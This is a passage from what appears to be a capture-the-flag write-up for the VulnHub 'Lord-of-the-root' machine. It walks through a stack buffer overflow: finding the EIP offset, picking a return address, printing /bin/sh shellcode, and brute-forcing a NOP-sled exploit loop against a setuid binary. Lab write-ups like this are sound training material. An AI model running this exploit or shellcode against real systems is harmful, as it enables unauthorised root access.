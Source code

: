 	# Determine Pattern Address 
	# Or you can just look at where program crashed <0xADDRESS in ?? ()>
	i r eip
	```
	- Pattern Address: `0x41376641`
	- Return Address: `0xbfb82e80`
		- Little Endian: `\x80\x2e\xb8\xbf`
5. Determine EIP offset
	```
	msf-pattern_offset -q 0x41376641
	```
	- EIP offset: 171
6. Ensure EIP offset
	```
	run  $(python -c 'print "A" * 171 + "B" * 4 + "C" * 200')
	```
7. Shellcode
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/bof]
	└─# cat shellcode | sed 's/"//g' | tr -d '\n'
	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
	```
8. Exploit
	```
	for x in {1..1000}; do env - /SECRET/door3/file $(python -c 'print "A"*171 + "\x80\x2e\xb8\xbf" + "\x90" * 20000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'); done
	```

	


